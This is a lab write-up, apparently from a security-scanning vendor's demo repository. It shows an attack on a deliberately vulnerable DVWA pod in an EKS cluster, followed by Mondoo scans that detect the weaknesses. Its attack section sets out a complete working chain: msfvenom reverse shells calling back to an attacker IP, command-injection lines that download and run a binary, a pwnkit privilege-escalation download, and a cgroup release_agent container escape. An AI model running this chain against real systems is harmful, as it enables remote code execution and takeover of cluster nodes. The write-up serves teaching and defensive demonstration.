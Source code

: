 # Hacking write-up

- you execute the terraform plan and got the following output:

```
kali_linux_public_ip = "18.117.184.121"
node_security_group_arn = "arn:aws:ec2:us-east-2:921877552404:security-group/sg-08969d523bdd3ab8c"
node_security_group_id = "sg-08969d523bdd3ab8c"
region = "us-east-2"
```

## Install mondoo operator

- follow the install steps (https://github.com/mondoohq/mondoo-operator/blob/main/docs/user-manual-kubectl.md)[https://github.com/mondoohq/mondoo-operator/blob/main/docs/user-manual-kubectl.md]

## kubernetes eks

- check everything is running

```bash
kubectl get nodes

kubectl get pods

kubectl get pods --namespace mondoo-operator

kubectl edit  mondooauditconfigs -n mondoo-operator
```

## hack execution

- create the port forwarding

```bash
kubectl get pods

NAME                                     READY   STATUS    RESTARTS   AGE
dvwa-container-escape-85c776c9bd-jmzqc   1/1     Running   0          101m

kubectl port-forward dvwa-container-escape-85c776c9bd-jmzqc 8080:80 
```

- the username for the DVWA is `admin` and the password is `password`
- finish the setup for the DVWA, click on "Create/ Reset Database" and relogin
- click on "Command Injection"

- please replace the variable `kali_linux_public_ip` in the following commands
- create the reverse meterpreter shell for the container

```bash
ssh kali@<kali_linux_public_ip>

mkdir container-escape
cd container-escape

msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<kali_linux_public_ip> LPORT=4242 -f elf > met-container

msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- create the reverse shell for the kubernetes nodes

```bash
ssh kali@<kali_linux_public_ip>

cd container-escape

msfvenom -p linux/x86/shell/reverse_tcp LHOST=<kali_linux_public_ip> LPORT=4243 -f elf > met-host

msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/shell/reverse_tcp;set lhost 0.0.0.0; set lport 4243;run'
```

- run a web server onliner that the container and node can download the binaries

```bash
ssh kali@<kali_linux_public_ip>

cd container-escape

ruby -run -ehttpd . -p8001
```

- do the first attack to gain access to the container

```
;curl -vk http://<kali_linux_public_ip>:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met
```

- now you got reverse meterpreter session from the container, to get a shell type `shell`
- do the priviledge escalation within the container to gain root

```bash
id

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
```

- do the container escape

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://<kali_linux_public_ip>:8001/met-host -o /run/met" >> /cmd
echo "chmod 777 /run/met" >> /cmd
echo "/run/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

- now you got the reverse shell from the kubernetes node, to verify it, show your are root and compare the ip addresses with kubectl

```bash
id

/sbin/ip a
```

```bash
kubectl get nodes
```

## scan kubernetes manifest

```bash
mondoo scan -t k8s --path dvwa-eks-deployment.yaml --no-pager
```

## scan container image

```bash
mondoo scan -t docker://public.ecr.aws/x6s5a8t7/dvwa:latest
```

## scan kubernetes eks cluster

```bash
mondoo scan -t k8s
```

## shell to kubernetes eks cluster

- ask if container is tag or digest

```bash
k8s.pods { _.containers { image containerImage { identifierType == "digest" } } }

k8s.pods { containers { name securityContext } }
```

# scan/shell kubernetes node via SSM

- replace variable `<AWS Instance ID>`

```bash
export AWS_REGION=us-east-2

mondoo scan -t aws-ec2-ssm://ssm-user@<AWS Instance ID>

mondoo shell -t aws-ec2-ssm://ssm-user@<AWS Instance ID>
```

# scan/shell kubernetes via aws api

```bash
export AWS_REGION=us-east-2

mondoo shell -t aws

aws.eks.clusters { * }

aws.eks.clusters { logging["ClusterLogging"].where( _["Enabled"] == true ) }
```